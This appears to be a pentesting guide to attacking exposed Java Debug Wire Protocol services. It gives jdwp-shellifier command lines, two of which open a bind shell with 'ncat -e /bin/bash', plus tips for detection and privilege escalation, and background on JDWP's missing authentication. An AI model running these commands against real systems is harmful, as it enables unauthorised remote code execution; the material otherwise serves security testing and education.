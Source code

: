 # Pentesting JDWP - Java Debug Wire Protocol

## Exploiting

You can use the python exploit located in [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.  
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the **Java Debug Wired Protocol** and you may be able to move laterally or even **escalate privileges** \(if executed as root\).

## More details

**Copied from** [**https://ioactive.com/hacking-java-debug-wire-protocol-or-how/**](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)\*\*\*\*

### **Java Debug Wire Protocol**

**Java Platform Debug Architecture \(JPDA\)**JDWP is one component of the global Java debugging system, called the Java Platform Debug Architecture \(JPDA\)\[2\]. The following is a diagram of the overall architecture:

 [![](https://ioactive.com/wp-content/uploads/2014/04/jdpa.png)](https://ioactive.com/wp-content/uploads/2014/04/jdpa-1.png)

  The Debuggee consists of a multi-threaded JVM running our target application. In order to be remotely debuggable, the JVM instance must be explicitly started with the option -Xdebug passed on the command line, as well as the option -Xrunjdwp \(or -agentlib\). For example, starting a Tomcat server with remote debugging enabled would look like this:

 [![](https://ioactive.com/wp-content/uploads/2014/04/tomat.png)](https://ioactive.com/wp-content/uploads/2014/04/tomat-1.png)

 As shown in the architecture diagram, the Java Debug Wire Protocol is the central link between the Debugger and the JVM instance. Observations about the protocol include:

* It is a packet-based network binary protocol.
* It is mostly synchronous. The debugger sends a command over JDWP and expects to receive a reply. However, some commands, like Events, do not expect a synchronous response. They will send a reply when specific conditions are met. For example, a BreakPoint is an Event.
* It does not use authentication.
* It does not use encryption.
